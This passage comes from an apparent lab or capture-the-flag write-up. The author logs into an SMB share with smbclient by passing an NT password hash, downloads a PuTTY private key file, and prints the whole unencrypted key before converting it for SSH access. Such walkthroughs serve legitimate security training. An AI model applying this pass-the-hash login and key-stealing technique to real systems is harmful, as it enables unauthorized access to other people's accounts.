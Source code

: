 
#### Connect and Collect

I’ll connect to the alice share and grab the only file there, a ppk file:

    
    
    root@kali# smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D        0  Mon Jul 30 22:54:20 2018
      ..                                  D        0  Tue Jul 31 23:16:50 2018
      my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018
    
                    433262 blocks of size 1024. 411540 blocks available
    smb: \> get my_private_key.ppk
    getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (17.2 KiloBytes/sec) (average 17.2 KiloBytes/sec)
    smb: \> exit
    

## Shell As alice Via SSH

### Convert Key

The key I collected from SMB was a .ppk format. It has both the private and
public parts in one file:

    
    
    root@kali# cat my_private_key.ppk 
    PuTTY-User-Key-File-2: ssh-rsa
    Encryption: none
    Comment: rsa-key-20180716
    Public-Lines: 6
    AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
    1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
    BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
    h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
    iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
    ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
    Private-Lines: 14
    AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
    VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
    cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
    hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
    Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
    3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
    m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
    l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
    4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
    qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
    hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
    AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
    QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
    xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
    Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
    